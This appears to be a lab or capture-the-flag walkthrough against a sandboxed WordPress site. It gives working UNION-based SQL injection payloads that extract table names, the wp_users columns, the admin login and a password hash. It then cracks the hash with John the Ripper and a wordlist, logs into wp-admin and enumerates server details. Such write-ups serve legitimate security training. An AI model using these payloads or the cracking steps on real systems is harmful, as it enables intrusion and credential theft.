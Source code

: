 get a list of table:
```
["1650149780')) OR 1=2 UNION SELECT 1,2,3,4,5,6,7,8,9,table_name,11 FROM information_schema.tables#"]
```
find an interesting table: `wp_users`  
find its coloums: 
```
["16232480')) OR 1=2 UNION SELECT 1,2,3,4,5,6,7,8,9,column_name,11 FROM information_schema.columns where table_name='wp_users'#"];
```
```
[\"ID\"],[\"user_login\"],[\"user_pass\"],[\"user_nicename\"],[\"user_email\"],[\"user_url\"],[\"user_registered\"],[\"user_activation_key\"],[\"user_status\"],[\"display_name\"]]}
```
get login name:
```
["16232480')) OR 1=2 UNION SELECT 1,2,3,4,5,6,7,8,9,user_login,11 FROM wp_users#"];
```
`wp_ajla_admin`  
get password:
```
["16232480')) OR 1=2 UNION SELECT 1,2,3,4,5,6,7,8,9,user_pass,11 FROM wp_users where user_login='wp_ajla_admin'#"];
```
the result is hash：
```
[\"$P$BfBIi66MsPQgzmvYsUzwjc5vSx9L6i\\\/\"]
$P$BfBIi66MsPQgzmvYsUzwjc5vSx9L6i/
```
it uses three `\\\` to escape a single / 

cracking the password from hash, use the rockyou wordlist: 
```
echo '$P$BfBIi66MsPQgzmvYsUzwjc5vSx9L6i/' > pass.txt

john --wordlist=/usr/share/wordlists/rockyou.txt pass.txt
Using default input encoding: UTF-8
Loaded 1 password hash (phpass [phpass ($P$ or $H$) 128/128 AVX 4x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
!love29jan2006!  (?)
1g 0:00:19:52 DONE (2021-07-11 15:22) 0.000838g/s 12018p/s 12018c/s 12018C/s !luv2:P..!lilkilla!
Use the "--show --format=phpass" options to display all of the cracked passwords reliably
Session completed

```
Login the wp page with password: `wp_ajla_admin`/`!love29jan2006!`
http://sandbox.local/wp-admin

# Enumerating the admin interface 
For wordpress, look at the info tag: tool->site_health->info
```
Server:
Server architecture	Linux 4.4.0-21-generic x86_64
Web server	Apache/2.4.18 (Ubuntu)
PHP version	7.0.33-0ubuntu0.16.04.7 (Supports 64bit values)

Database:
Extension	mysqli
Server version	10.3.20-MariaDB
Client version	mysqlnd 5.0.12-dev - 20150407 - $Id: b5c5906d452ec590732a93b051f3827e02749b83 $
Database user	wp
Database host	10.5.5.11
```